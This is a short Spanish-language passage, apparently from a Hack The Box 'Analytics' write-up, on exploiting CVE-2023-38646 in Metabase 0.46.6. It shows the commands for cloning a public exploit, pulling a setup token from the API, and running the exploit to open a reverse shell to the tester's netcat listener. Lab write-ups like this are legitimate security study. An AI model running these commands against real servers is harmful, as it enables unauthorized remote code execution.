 #CVE-2023-38646

------

Vulnerabilidad para metabase 0.46.6

---

Vamos a utilizar el siguiente repositorio de [UserConecting](https://github.com/UserConnecting/Exploit-CVE-2023-38646-Metabase)
Con [[git clone]] usando `git clone https://github.com/UserConnecting/Exploit-CVE-2023-38646-Metabase` lo vamos a clonar en nuestro directorio actual de trabajo

Nos dice entremos al siguiente link http://data.analytical.htb/api/session/properties para sacar el setup-token, que lo vamos a necesitar para hacer la explotacion
![[Analytics16.png]]
*249fa03d-fd94-4d5b-b94f-b4ebf3df681f*

Ahora vamos a usar el comando `python3 metabase_exploit.py http://data.analytical.htb 249fa03d-fd94-4d5b-b94f-b4ebf3df681f revshell 10.10.16.15:443` para ejecutar el exploit, mientras estamos en escucha con [[nc -nlvp 443]]

![[Analytics17.png]]

![[Analytics18.png]]
Y ya ganamos acceso como el usuario metabase, aunque como no es una tty, no nos va a dejar hacer un [[Tratamiento de la TTY]]